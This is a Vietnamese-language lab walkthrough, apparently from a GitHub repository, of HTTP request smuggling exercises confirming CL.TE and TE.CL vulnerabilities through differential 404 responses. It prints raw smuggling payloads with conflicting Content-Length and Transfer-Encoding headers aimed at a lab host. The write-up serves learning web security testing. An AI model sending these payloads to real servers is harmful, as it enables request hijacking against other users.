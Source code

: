 ```
Foo: x
```

Nếu xác định có lỗ hổng thì phản hồi tiếp theo sẽ có thêm những phân đoạn sau như:
```
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling

```

Điều này sẽ làm request không hợp lệ và sẽ trả về lỗi 404 Not Found.

Ta thực hiện tương tự các bài lab trước tuy nhiên sẽ thay đổi payload như trên .

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_CLTEdiff_notfounf.png?raw=true)


Và kết quả trả về 404 Not Found và chúng ta đã hoàn thành bài lab.

![img](https://github.com/datnlq/Source/blob/main/HTTP%20request%20smuggling/image/SSTI_CLTEdiff_solve.png?raw=true)


### Lab: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
```
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.
```
Đối với mô tả và lý thuyết thì tương tự bài trước tuy nhiên để khai thác lỗ hổng TE.CL thì lại phải dùng payload khác. Có ví dụ như sau :

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```
Yêu cầu trên chỉ đọc phân đoạn 4 bytes tức là từ GET trở xuống sẽ được đưa về request sau. Nếu có tồn tại lỗi thì request sau sẽ là : 
 ```
 GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
 ```